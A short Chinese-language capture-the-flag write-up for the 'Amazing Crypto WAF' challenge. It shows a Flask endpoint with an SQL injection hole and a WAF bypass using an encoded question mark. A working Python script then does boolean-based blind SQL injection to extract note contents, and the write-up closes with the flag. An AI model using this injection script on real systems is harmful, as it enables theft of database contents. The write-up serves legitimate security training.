 # Amazing Crypto WAF

看到是 liveoverflow 出的題，就跑來玩一下惹

首先有個明顯注入點:

```
@app.route('/notes')
@login_required
def notes():
    order = request.args.get('order', 'desc')
    notes = query_db(f'select * from notes where user = ? order by timestamp {order}', [g.user['uuid']])
    return render_template('notes.html', user=g.user, notes=notes)
```

另外 query 可以污染，繞 WAF:

```
requests.get(f'{BACKEND_URL}{path}?{query}'
```

這樣就能繞掉:

```
https://7b0000000d2a54b152d456f4-amazing-crypto-waf.challenge.master.allesctf.net:31337/notes%3forder=desc--+sleep
```

後面就 boolean-based 慢慢爆：

```
import requests

s = ""

for j in range(100):

    ll = 0
    rr = 126

    while True:
        if ll >= rr:
            break
        mid = (ll+rr) // 2
        print(mid)
        payload="/notes%3forder=limit%20(case%20when%20(unicode(substr((select%20body%20from%20notes),{},1))>{})%20then%201%20else%202%20end)--".format(j+1, mid)
        r = requests.get("https://7b0000000d2a54b152d456f4-amazing-crypto-waf.challenge.master.allesctf.net:31337/"+payload,cookies={"session":"099072039f6541c98791b06f813e990a.f1e145a17a2934c2b870dbb96bbe417ccb6550565b9bfc1ffc9b67dbe1969430"})

        #print r.text

        if "thisisfalse" not in r.text:
            ll = mid + 1
        else:
            rr = mid


    s += (chr(ll))
    print(s)
```


撈出來的是加密內容

可以用 `delete_note` 去解

`ALLES!{American_scientists_said,_dont_do_WAFs!}`
